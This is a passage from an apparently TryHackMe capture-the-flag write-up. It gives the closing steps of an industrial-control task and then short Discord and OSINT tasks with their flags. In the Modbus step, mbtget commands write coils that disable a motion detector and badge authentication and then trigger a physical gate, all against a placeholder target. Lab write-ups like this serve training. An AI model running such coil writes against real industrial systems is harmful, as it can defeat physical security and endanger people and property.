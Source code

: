 Found **502/tcp Modbus TCP** open.

2. **Analyzed Node-RED flows:**

- Coil 20 = motion detector
- Coil 25 = badge authentication

3. **Set coils 20 & 25 to true:**

```
mbtget -w5 1 -u 1 -a 20 <target_ip>
mbtget -w5 1 -u 1 -a 25 <target_ip>
```

4. **Confirmed with:**

```
mbtget -r1 -u 1 -a 0 -n 40 <target_ip>
```

Both coils showed 1.

5. **Tested coil 30 as gate trigger:**

```
mbtget -w5 1 -u 1 -a 30 <target_ip>
```

6. **Gate opened.**

---

## Task 4 – Discord

**Category:** Discord  
**Difficulty:** Beginner  
**Flag:** THM{D15C0RD_57A5H_C0MM4ND5}

**Lessons Learned:** Always enumerate available bot slash commands during CTF Discord integrations to quickly identify solutions

**Steps Taken**

1. Joined Discord server.

2. Ran:

```
/secret-function
```

Bot returned the flag.

---

## Task 5 – OSINT 1

**Category:** OSINT  
**Difficulty:** Beginner  
**Flag:** THM{Su5sss}
